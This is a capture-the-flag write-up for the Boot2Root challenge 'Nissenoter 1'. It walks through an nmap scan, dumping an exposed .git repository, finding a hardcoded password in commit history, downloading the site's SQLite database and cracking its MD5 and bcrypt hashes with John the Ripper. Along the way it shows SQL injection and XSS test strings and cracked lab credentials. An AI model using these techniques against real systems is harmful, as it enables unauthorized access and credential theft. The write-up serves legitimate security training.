



+++
title = 'Nissenoter 1'
categories = ['Boot2Root']
date = 2023-12-15T13:33:38+01:00
+++

## Challenge Name:

Nissenoter 1

## Category:

Boot2Root

## Challenge Description:

Vi har opfanget nissernes hemmelige notedelingsnetværk. Vores bedste praktikant siger, at det er _umuligt_ at infiltrere netværket.

_Opgaven er tilgængelig via Haaukins:_

https://ncctf.haaukins.dk/

## Approach

### Enumeration

We are to infiltrate the gnomes secret note sharing network! As with the previous dynamic challenges on Haaukins, we start out with [the following nmap scan](https://explainshell.com/explain?cmd=sudo+nmap+-sC+-sV+-O+-p-).

```bash
┌──(haaukins㉿kali)-[~]
└─$ sudo nmap -sC -sV -O -p- 77.76.246.224
[sudo] password for haaukins:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-21 05:05 EST
Nmap scan report for 77.76.246.224
Host is up (0.00019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey:
|   256 308e05b497e351bc0200005355850ca0 (ECDSA)
|_  256 7de127b32e30c096e70dc32f62703266 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/static/
|_http-title: Log ind
| http-git:
|   77.76.246.224:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: nu med mere shoutbox
|_    Project type: node.js application (guessed from .gitignore)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:4D:4C:F6:E0 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.88 seconds
```

We find the note sharing server with two open ports and take note of port 22 (ssh) & 80 (http, usually a web app) being open!
This would ordinarily indicate that we need to exploit a webapp (often PHP-based) being hosted on an Apache server!

We also find a robot.txt file, which is always a great idea to check for, when hacking webapps!
Even more interestingly we also find a git repository on the server at "/.git/"!

### Exploitation

With plenty of interesting leads to go by, we connect to the address and take a look ath the webapp


We are greeted by a login form and a "shout box" on the inital page.
When facing a login form one should always try out "default credentials", such as "user/user" & "admin/admin" and also test for low hanging [SQL injection](https://www.imperva.com/learn/application-security/sql-injection-sqli/#:~:text=SQL%20injection%2C%20also%20known%20as,lists%20or%20private%20customer%20details.), which can be testet with something as simple as the following in the input fields.

```sql
' OR 1=1; --
```

So of course we try our luck.


It does however not appear to be that easy.
In the network tab, we take not of the endpoint the webapp requests when authenticating "/api/authenticate".
We also see that continous calls are made to "/api/shout/get/25", which would appear to be the request fetching data for the "shout box".
When looking through the shouts in the box we see different characters being used, which decreases the likelyhood of [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) working, but it should be tested regardless! The simplest test is to try out if an alert box can be opened

```bash
<script>alert(‘XSS’)</script>
```

If an alert box were to open on the webapp, we could utilize more complex XSS attacks to exploit our way in, but unfortunately the text just gets added as a shout.

We take note of the endpoint request when adding the shout at "/api/shout/add" and also take note of the <USER> format of the user shouts, which just seems to be hexadecimals. When we decode the values we don't get anything useful.

Having tested the site functionality we remember to check out the "nissenoter.nc3/robots.txt", that we saw from our nmap scan.

```bash
User-Agent: *
Disallow: /static/
```

Interestingly we see that there is a "/static/" folder, for which we are prevented access.

We also need to check out if we can "dump" the git repository on the webapp. There are a few great tools for this, one well known being the [git-dumper](https://github.com/arthaud/git-dumper) cli tool, but I recently came across something even faster, which is a browser extension that can automatically detect available repositories on websites and even download them, called [DotGit](https://github.com/davtur19/DotGit).



Often when dumping a git repository we won't be able to fetch all files, so we need to reset it to the original state, which can be achieved with the git command

```bash
┌──(haaukins㉿kali)-[~/nissenoter_nc3]
└─$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .gitignore
	deleted:    .htaccess
	deleted:    composer.json
	deleted:    composer.lock
	deleted:    core.php
	deleted:    core/Container.php
	deleted:    core/Controllers/AuthController.php
	deleted:    core/Controllers/ControllerInterface.php
	deleted:    core/Controllers/IndexController.php
	deleted:    core/Controllers/NotesController.php
	deleted:    core/Controllers/ProfileController.php
	deleted:    core/Controllers/ShoutController.php
	deleted:    core/Models/User.php
	deleted:    core/Utils/Database.php
	deleted:    core/Utils/Flash.php
	deleted:    core/Utils/HTTP.php
	deleted:    core/Utils/Session.php
	deleted:    core/Utils/Variable.php
	deleted:    core/index.html
	deleted:    index.php
	deleted:    robots.txt
	deleted:    static/bootstrap/bootstrap.min.css
	deleted:    static/bootstrap/bootstrap.min.css.map
	deleted:    static/bootstrap/bootstrap.min.js
	deleted:    static/bootstrap/bootstrap.min.js.map
	deleted:    static/default.css
	deleted:    static/fontawesome-free-6.2.1-web/css/all.min.css
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-brands-400.ttf
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-brands-400.woff2
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-regular-400.ttf
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-regular-400.woff2
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-solid-900.ttf
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-solid-900.woff2
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-v4compatibility.ttf
	deleted:    static/fontawesome-free-6.2.1-web/webfonts/fa-v4compatibility.woff2
	deleted:    static/index.css
	deleted:    static/index.html
	deleted:    static/templates/errors/400.twig
	deleted:    static/templates/errors/403.twig
	deleted:    static/templates/errors/404.twig
	deleted:    static/templates/errors/405.twig
	deleted:    static/templates/errors/500.twig
	deleted:    static/templates/footer.twig
	deleted:    static/templates/index.html
	deleted:    static/templates/index.twig
	deleted:    static/templates/login.twig
	deleted:    static/templates/master.twig
	deleted:    static/templates/navbar.twig
	deleted:    static/templates/notes_add.twig
	deleted:    static/templates/notes_index.twig
	deleted:    static/templates/notes_view.twig
	deleted:    static/templates/profile.twig
	deleted:    static/templates/profile_edit.twig
	deleted:    static/templates/shoutbox.twig
	deleted:    user_notes/.htaccess
	deleted:    user_notes/index.html

no changes added to commit (use "git add" and/or "git commit -a")

┌──(haaukins㉿kali)-[~/nissenoter_nc3]
└─$ git restore .

┌──(haaukins㉿kali)-[~/nissenoter_nc3]
└─$ git status
On branch master
nothing to commit, working tree clean
```

With the repository fully restored, it turns out to be the repository for the webapp project we are currently browsing!



In general it is always a good idea to search for credentials in a repository, so first we search through all the files in the current branch and afterwards we search throughout the commit history.

```bash
nissenoter_nc3 @927598b7 > git log

commit 1d121e8b65641709cb00af227f2c31d2f964b3d3
Author: nissen <nissen@nordpolen.jul>
Date:   Tue Nov 1 12:42:00 2022 +0100

    Nu uden hardcoded bruger
```

This seems very interesting, as it states that a hardcoded user has been removed! Let's check out the commit just before this removal.

In the previous commit we can see that in "/core/Models/User.php" the following implementation of the authenticate function contains some credentials!

```php
    public function authenticate(string $username, string $password) : bool {

        if($username == 'chefnissen' && $password == 'DenGyldneKanel') {
            $this->user_id = 1;
            $this->username = 'chefnissen';

            return true;
        }

        return false;
    }
```

I immediately test out the credentials "chefnissen:DenGyldneKanel" in the login form and try to connect with SSH, but the credentials are unfortunately invalid.

It appears that we need to try harder, which is always a good mindset in hacking, so we return to the latest commit version of the repository and analyse the project files.

### Getting foothold on the webapp

In the file /index.php we find a very intresting line for setting up a database connection!

```php
$database = new Database('core/nissebanden.db');
```

This database file does not exist in the repository, so let's see if we can download it!

```bash
┌──(haaukins㉿kali)-[~]
└─$ wget http://nissenoter.nc3/core/nissebanden.db
--2023-12-21 05:59:37--  http://nissenoter.nc3/core/nissebanden.db
Resolving nissenoter.nc3 (nissenoter.nc3)... 77.76.246.224
Connecting to nissenoter.nc3 (nissenoter.nc3)|77.76.246.224|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20480 (20K)
Saving to: ‘nissebanden.db’

nissebanden.db      100%[===================>]  20.00K  --.-KB/s    in 0s

2023-12-21 05:59:37 (116 MB/s) - ‘nissebanden.db’ saved [20480/20480]
```

Great Scott! We managed to download a database from the website!

If we take a look in "/core/Utils/Database.php" we can quickly identify, in the constructor of the class, that we are dealing with a SQLite database.

```php
    public function __construct(string $dbname) {
        $this->dsn = 'sqlite:' . $dbname;
        $this->connect();
    }
```

There is a great tool for browsing SQLite database files, called [DB Browser for SQLite](https://sqlitebrowser.org/), which we can use to analyse the content.


When diving into the database, we see 2 tables: shouts & users, the latter being of highest interest!



We quickly note down all the user information and take note of password hashes that we need to try and crack, along with the fact that only "Oluf Sand" has a last name and only a few users have roles and descriptions!

There are many good tools for analysing & cracking hashes, but I like [Hashes.com](https://hashes.com/en/tools/hash_identifier) for a quick analysis, which yields us the identification of a [Bcrypt hash](https://en.wikipedia.org/wiki/Bcrypt).

What is important about Bcrypt is the "input cost", which can help determine how feasible bruteforcing a hash might be.

```text
$2b$04$fVZgTuYoXVfTLpFFNY.UkeX3Pm1MDrV9h4bx/pA41o9s4i49.MYEK
\__/\/ \____________________/\_____________________________/
Alg Cost      Salt                        Hash
```

With this in mind, we see a cost of 4 for the hashes we are working in, which is great news, seeing as the standard is 12. This gives us hope that a tool like [hashcat](https://hashcat.net/hashcat/) or [John The Ripper](https://www.freecodecamp.org/news/crack-passwords-using-john-the-ripper-pentesting-tutorial/) might be successful, given a proper wordlist like [rockyou](https://www.kaggle.com/datasets/wjburns/common-password-list-rockyoutxt), which contains more than 14 million passwords!

There is however another interesting column in the table, which is "old_hashes" of the type BLOB (binary large object).
With a nifty sql query we can extract these hashes with their respective usernames.

```sql
SELECT username||':'||hex(old_hashes) FROM users
```

```text
olufsand:F7F497C879D74A0AD51B90AEB158B58F
fritz:E80B5017098950FC58AAD83C8C14978E
hansi:99F2CF8253C31FCE12E59B0DA36E35D3
gunter:C378985D629E99A4E86213DB0CD5E70D
nissen:E91697A354EBB6C05444005205C30DA2
springer:7C6A180B36896A0A8C02787EEAFB0E4C
danser:602A6AA8B4EBD6BDF19B38085163EC86
smukke:25D55AD283AA400AF464C76D713C07AD
konge:FD83506C25FF1476D7F39349A1B90D81
komet:84DA0B929DC922D0958FDF870F546794
amor:B2B85EC7EC8CC4771B8D055AEE5F82B0
torden:3D4FE7A00BC6FB52A91685D038733D6F
lyn:191140C5F780C8D66203858C5055BEA8
rudolf:12679B745F71E4327FAE7801F39B634B
```

When we try to identify these hashes we quickly see that they are MD5 hashes and very easily crackable with John!

```bash
$ john md5_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5

Using default input encoding: UTF-8
Loaded 14 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX
4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678 (smukke)
chocolate (gunter)
password1 (springer)
abcdef (fritz)
christmas (torden)
midnight1 (olufsand)
beautiful! (amor)
nooneknows (nissen)
merrychristmas (komet)
julemand (hansi)
christmastime (danser)
ilovechristmas (konge)
commander007 (rudolf)
!happiness! (lyn)
14g 0:00:00:00 DONE (2023-12-15 10:00) 21.21g/s 21725Kp/s 21725Kc/s 36620KC/s
!hector..!fqbn9a?
Use the "--show --format=Raw-MD5" options to display all of the cracked
passwords reliably
Session completed.
```

Perfect, we got all the MD5 hashes from rockyou within seconds, now let's start cracking the Bcrypt passwords, which might take a bit longer.

```bash
$ john bcrypt_hashes.txt --wordlist=custom_wordlist.txt
Using default input encoding: UTF-8
Loaded 14 password hashes with 14 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
christmastime (danser)
christmas (torden)
commander007 (rudolf)
julemand (hansi)
chocolate (gunter)
5g 0:00:00:00 DONE (2023-12-15 13:37) 100.0g/s 300.0p/s 4200c/s 4200C/s
12345678
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We managed to crack the Bcrypt passwords, despite it taking close to an hour! It doesn't however appear that they changed their passwords. This leaves us the following credential notes

```text
|   Password     |   Username   |
| -------------- | ------------ |
| 12345678       | (smukke)     |
| chocolate      | (gunter)     |
| password1      | (springer)   |
| abcdef         | (fritz)      |
| christmas      | (torden)     |
| midnight1      | (olufsand)   |
| beautiful!     | (amor)       |
| nooneknows     | (nissen)     |
| merrychristmas | (komet)      |
| julemand       | (hansi)      |
| christmastime  | (danser)     |
| ilovechristmas | (konge)      |
| commander007   | (rudolf)     |
| !happiness!    | (lyn)        |
```

When we try to login, we identify invalid credentials for "smukke", which might idendicate a disabled user, so we try "gunter" instead, which yields a valid login!

Now the next stage of enumeration can commence, seeing as we have managed to establish a foothold on the webapp.

### Getting first flag

We quickly check out the headers navigation links "Forsiden", "Profil" & "Noter", the latter being an instant success for our flag for Nissenoter 1!


Thanks to "rudolf" we can submit the first flag and move on to [Nissenoter 2](/nc3/boot2root/nissenoter-2)!

## Flag

```text
NC3{1. Get .git; 2. Get database; 3. ????; 4. Profit!}
```

## Reflections and Learnings

### The Value of Comprehensive Enumeration

This challenge highlighted the importance of comprehensive enumeration in cybersecurity. The initial nmap scan revealed critical information about open ports and and the available git repository, guiding the subsequent investigation steps. It's a reminder that a thorough initial scan can save time and provide a clear direction for exploration.

### Importance of Exploring Unconventional Avenues

Discovering the git repository and the SQLite database demonstrated the value of exploring unconventional avenues. These findings were not immediately apparent and required a deep dive into the server's structure. This emphasizes the need to think outside the box and consider non-obvious attack vectors.

### Persistence and Attention to Detail in Password Cracking

Cracking the password hashes, particularly the bcrypt hashes, required persistence and attention to detail. The successful cracking of these passwords underlines the importance of having a comprehensive wordlist like rockyou and the capability to recognize and leverage different hash types.
